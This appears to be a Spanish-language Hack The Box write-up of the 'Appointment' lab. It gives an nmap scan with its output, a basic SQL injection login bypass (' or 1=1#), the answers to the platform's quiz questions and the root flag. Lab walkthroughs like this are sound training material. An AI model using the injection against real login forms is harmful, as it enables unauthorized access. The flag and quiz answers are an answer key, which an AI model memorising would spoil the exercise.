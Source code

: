 ```yaml
---
title: HTB - Appointment
date: 2022-06-21
categories: [Hack The Box, Starting Point]
tag: [Web, Sql, Starting Point - Tier 2]
img_path: /assets/img/htb/appointment
image:
   path: appointment.png
   width: 371
   height: 168
---
```

<h2 style="color:#74b4f4">Escaneo</h2>
---
Realizamos un escaneo de `nmap` para identificar los puertos abiertos y servicios.

```console
nmap {target ip} -sV -v -O
```

Resultado del escaneo:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-26 20:09 CDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 20:09
Scanning 10.129.8.143 [4 ports]
Completed Ping Scan at 20:09, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:09
Completed Parallel DNS resolution of 1 host. at 20:09, 0.00s elapsed
Initiating SYN Stealth Scan at 20:09
Scanning 10.129.8.143 [1000 ports]
Discovered open port 80/tcp on 10.129.8.143
Completed SYN Stealth Scan at 20:09, 2.96s elapsed (1000 total ports)
Initiating Service scan at 20:09
Scanning 1 service on 10.129.8.143
Completed Service scan at 20:09, 6.35s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 10.129.8.143
Retrying OS detection (try #2) against 10.129.8.143
Retrying OS detection (try #3) against 10.129.8.143
Retrying OS detection (try #4) against 10.129.8.143
Retrying OS detection (try #5) against 10.129.8.143
NSE: Script scanning 10.129.8.143.
Initiating NSE at 20:09
Completed NSE at 20:10, 1.49s elapsed
Initiating NSE at 20:10
Completed NSE at 20:10, 1.56s elapsed
Nmap scan report for 10.129.8.143
Host is up (0.40s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/26%OT=80%CT=1%CU=37959%PV=Y%DS=2%DC=I%G=Y%TM=626897E
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54BST11NW7%O2=M54BST11NW7%O3=M54BNNT11NW7%O4=M54BST11NW7%O5=M54BST1
OS:1NW7%O6=M54BST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54BNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%
OS:RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 47.250 days (since Thu Mar 10 13:10:18 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.88 seconds
           Raw packets sent: 1220 (57.946KB) | Rcvd: 1164 (52.452KB)
```

Podemos observar que existe un servidor Apache corriendo en el puerto 80 lo que quiere decir que hay una página web activa en esa máquina. 

![](Pasted image 20220426203317.png)

![](Pasted image 20220426203252.png)

Intentamos una <b style="color:#800000">SQL Injection</b> básica para acceder al sistema como administrador sin necesidad de una contraseña.

```sql
' or 1=1#
```

Obtenemos la bandera.

![](Pasted image 20220426203049.png)

<h2 style="color:#74b4f4">Preguntas</h2>
---
1. ¿Qué significa el acrónimo SQL?

	<b style="color:#8B2F97">Structured Query Language</b>
	
2. ¿Cuál es uno de los tipos más comunes de vulnerabilidades de SQL?

	<b style="color:#8B2F97">SQL Injection</b>
	
3. ¿Qué significa PII?

	<b style="color:#8B2F97">Personally Identifiable Information</b>
	
4. ¿Cuál es el nombre de la lista OWASP Top 10 para la clasificación de esta vulnerabilidad?

	<b style="color:#8B2F97">A03:2021-Injection</b>

5. ¿Qué servicio y versión se ejecutan en el puerto 80 del destino?

	<b style="color:#8B2F97">Apache httpd 2.4.38 ((Debian))</b>

6. ¿Cuál es el puerto estándar utilizado para el protocolo HTTPS?

	<b style="color:#8B2F97">443</b>

7. ¿Cuál es un método basado en la suerte para explotar las páginas de inicio de sesión?

	<b style="color:#8B2F97">Brute-Forcing</b>

8. ¿Cómo se llama una carpeta en la terminología de aplicaciones web?

	<b style="color:#8B2F97">Directory</b>

9. ¿Qué código de respuesta se da para los errores "No encontrado"?

	<b style="color:#8B2F97">404</b>

10. ¿Qué interruptor usamos con Gobuster para especificar que buscamos descubrir directorios y no subdominios?

	<b style="color:#8B2F97">dir</b>

11. ¿Qué símbolo usamos para comentar partes del código?

	<b style="color:#8B2F97">#</b>
	
**Root Flag:** <b style="color:#FF8B00">e3d0796d002a446c0e622226f42e9672</b>


![](Pasted image 20220426203857.png)
